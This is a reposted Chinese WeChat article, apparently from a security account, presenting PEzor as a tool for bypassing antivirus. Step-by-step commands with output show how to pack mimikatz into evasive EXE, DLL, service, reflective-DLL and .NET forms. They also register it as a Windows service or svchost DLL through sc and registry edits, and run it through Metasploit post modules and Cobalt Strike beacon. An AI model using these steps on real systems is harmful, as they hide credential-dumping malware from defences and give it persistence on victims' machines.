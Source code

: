 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/gyYumUgCMXj4BV2p0-cvBA)

> 本文由海阳顶端授权发布    介绍一款很强大的工具，
> 
> https://github.com/phra/PEzor, 主要是用于通过反射来执行 exe 或 shellcode，从而来绕过 AV。

这款工具主要是安装稍微麻烦一点，需要在 KAIL 系统下安装。

```
$ git clone https://github.com/phra/PEzor.git$ cd PEzor$ sudo bash install.sh$ bash PEzor.sh -h
```

![](https://mmbiz.qpic.cn/mmbiz_png/r5ic5orS6QQ6ExVG2LpIK64C7jJZLBA6VsyczllBzAOUmq6Flq8tfc2uibTgP9BpKPFN2G198k0t2AMPiblibbVu1g/640?wx_fmt=png)

经过漫长的等待后，会给你安装 Mingw-w64 和 LLVM / Clang 的工具链。不过使用 PEzor 的时候，这时仍然会给你弹出一些错误提示。主要是环境变量和缺少了

https://github.com/EgeBalci/sgn。这里你需要做两步：

1、当前 bash 窗口导入 PEzor 的环境变量。

> export PATH=$PATH:~/go/bin/:/home/kali/PEzor:/home/kali/PEzor/deps/donut_v0.9.3/:/home/kali/PEzor/deps/wclang/_prefix_PEzor_/bin/

![](https://mmbiz.qpic.cn/mmbiz_jpg/r5ic5orS6QQ6ExVG2LpIK64C7jJZLBA6V5rqDD7Wf7v9IG6wv2WOQiarUcqwc9STQATSWeicrhELZvzdUbDMcCFrg/640?wx_fmt=jpeg)

2、下载

https://github.com/EgeBalci/sgn，解压后放入 PEzor 的目录。

![](https://mmbiz.qpic.cn/mmbiz_png/r5ic5orS6QQ6ExVG2LpIK64C7jJZLBA6VqlYEycrR89LuEJcwKYxkxBHKKqIZu6PAVpRgvHlrfxFs6rnI3uawWA/640?wx_fmt=png)

一切就绪后，我们来看下它强大的功能。

![](https://mmbiz.qpic.cn/mmbiz_jpg/r5ic5orS6QQ6ExVG2LpIK64C7jJZLBA6V6xbCSlROKynsicEWC1ZFEwjJUWY25tibGzy3vy0NUUld51Lib9BMQ8baA/640?wx_fmt=jpeg)

我们以 mimikatz 来举几例具体用法。

一、生成变异的 exe

```
# generate$ PEzor -format=exe mimikatz.exe -z 2 -p '"token::whoami" "exit"'# executeC:> .\mimikatz.exe.packed.exe
```

二、生成变异的 DLL

```
# generate$ PEzor -format=dll mimikatz.exe -z 2 -p '"token::whoami" "exit"'# executeC:> rundll32 .\mimikatz.exe.packed.dll,DllMain
```

三、生成可以加载服务的变形 exe

```
# generate$ PEzor -format=service-exe mimikatz.exe -z 2 -p '"log C:/Users/Public/mimi.out" "coffee" "exit"'# executeC:\Users\Public> sc create mimiservice binpath= C:\Users\Public\mimikatz.exe.packed.service.exe[SC] CreateService SUCCESSC:\Users\Public> sc start mimiserviceSERVICE_NAME       : mimiservice        TYPE               : 20  WIN32_OWN_PROCESS        STATE              : 4  RUNNING                                (STOPPABLE, NOT_PAUSABLE, ACCEPTS_SHUTDOWN)        WIN32_EXIT_CODE    : 0  (0x0)        SERVICE_EXIT_CODE  : 0  (0x0)        CHECKPOINT         : 0x0        WAIT_HINT          : 0x0        PID                : 913        FLAGS              : 0x0
```

四、生成可以加载服务的变形 DLL

```
# generate$ PEzor -format=service-dll mimikatz.exe -z 2 -p '"log C:/Users/Public/mimi.out" "coffee" "exit"'# executeC:\Users\Public> copy /y mimikatz.packed.exe.service.dll %SystemRoot%\System32\SvcHostDemo.dll        1 file(s) copied.C:\Users\Public> sc create SvcHostDemo binpath= ^%SystemRoot^%"\System32\svchost -k mygroup" type= share start= demand[SC] CreateService SUCCESSC:\Users\Public> reg add "HKLM\SYSTEM\CurrentControlSet\services\SvcHostDemo\Parameters /v ServiceDll /t REG_EXPAND_SZ /d ^%SystemRoot^%\System32\SvcHostDemo.dll /fThe operation completed successfully.C:\Users\Public> reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SvcHost" /v mygroup /t REG_MULTI_SZ /d SvcHostDemo /fThe operation completed successfully.C:\Users\Public> sc start SvcHostDemoSERVICE_NAME       : SvcHostDemo        TYPE               : 30  WIN32        STATE              : 2  START_PENDING                                (NOT_STOPPABLE, NOT_PAUSABLE, IGNORES_SHUTDOWN)        WIN32_EXIT_CODE    : 0  (0x0)        SERVICE_EXIT_CODE  : 0  (0x0)        CHECKPOINT         : 0x0        WAIT_HINT          : 0x7d0        PID                : 1823        FLAGS              : 0x0
```

五、生成反射性的 reflective-dll

```
# generate$ PEzor -format=reflective-dll mimikatz.exe -z 2 -p '"log mimi.out" "coffee" "exit"'# executemsf5 > use post/windows/manage/reflective_dll_injectmsf5 post(windows/manage/reflective_dll_inject) > set PATH mimikatz.exe.packed.reflective.dllmsf5 post(windows/manage/reflective_dll_inject) > set WAIT 10msf5 post(windows/manage/reflective_dll_inject) > run
```

![](https://mmbiz.qpic.cn/mmbiz_png/r5ic5orS6QQ6ExVG2LpIK64C7jJZLBA6VuymPSlibwkF2ZC5CbdHeicLYT50m3ZCQMPJicia9GUickKlAEiclQN3K9QIg/640?wx_fmt=png)

六、生成. NET 的 DLL

```
# generate$ PEzor -format=dotnet mimikatz.exe -z 2 -p '"log mimi.out" "coffee" "exit"'# executemsf5 > use post/windows/manage/execute_dotnet_assemblymsf5 post(windows/manage/execute_dotnet_assembly) > set DOTNET_EXE mimikatz.exe.packed.dotnet.exemsf5 post(windows/manage/execute_dotnet_assembly) > set WAIT 10msf5 post(windows/manage/execute_dotnet_assembly) > run
```

![](https://mmbiz.qpic.cn/mmbiz_png/r5ic5orS6QQ6ExVG2LpIK64C7jJZLBA6VmYUS9OuCBiciaBlX0rJJDxViaj2jaYa0wdHd17F1J9ibyTT8zTVBnTUZcg/640?wx_fmt=png)

七、另外，它也支持 Cobalt Strike Integration

```
# convert and execute reflective DLLbeacon> execute-inmemory -format=reflective-dll mimikatz.exe -z 2 -p '"coffee" "exit"'# convert and execute .NET assemblybeacon> execute-inmemory -format=dotnet mimikatz.exe -z 2 -p '"coffee" "exit"'
```

![](https://mmbiz.qpic.cn/mmbiz_png/r5ic5orS6QQ6ExVG2LpIK64C7jJZLBA6VC46FKX5qkPaaXsianx5Z77crjOab9KqrElov6Njh5maDTp5JZQncmfg/640?wx_fmt=png)

这个 Cobalt Strike 的插件地址在

https://github.com/phra/PEzor/blob/master/aggressor/PEzor.cna。

![](https://mmbiz.qpic.cn/mmbiz_png/ndicuTO22p6ibN1yF91ZicoggaJJZX3vQ77Vhx81O5GRyfuQoBRjpaUyLOErsSo8PwNYlT1XzZ6fbwQuXBRKf4j3Q/640?wx_fmt=png)  

一如既往的学习，一如既往的整理，一如即往的分享。感谢支持![](https://mmbiz.qpic.cn/mmbiz_png/p5qELRDe5icl7QVywL8iaGT0QBGpOwgD1IwN0z9JicTRvzvnsJicNRr2gRvJib6jKojzC5CJJsFPkEbZQJ999HrH5Gw/640?wx_fmt=png)  

“如侵权请私聊公众号删文”

****扫描关注 LemonSec****  

![](https://mmbiz.qpic.cn/mmbiz_png/p5qELRDe5icncXiavFRorU03O5AoZQYznLCnFJLs8RQbC9sltHYyicOu9uchegP88kUFsS8KjITnrQMfYp9g2vQfw/640?wx_fmt=png)

**觉得不错点个 **“赞”**、“在看” 哦****![](https://mmbiz.qpic.cn/mmbiz_png/3k9IT3oQhT1YhlAJOGvAaVRV0ZSSnX46ibouOHe05icukBYibdJOiaOpO06ic5eb0EMW1yhjMNRe1ibu5HuNibCcrGsqw/640?wx_fmt=png)**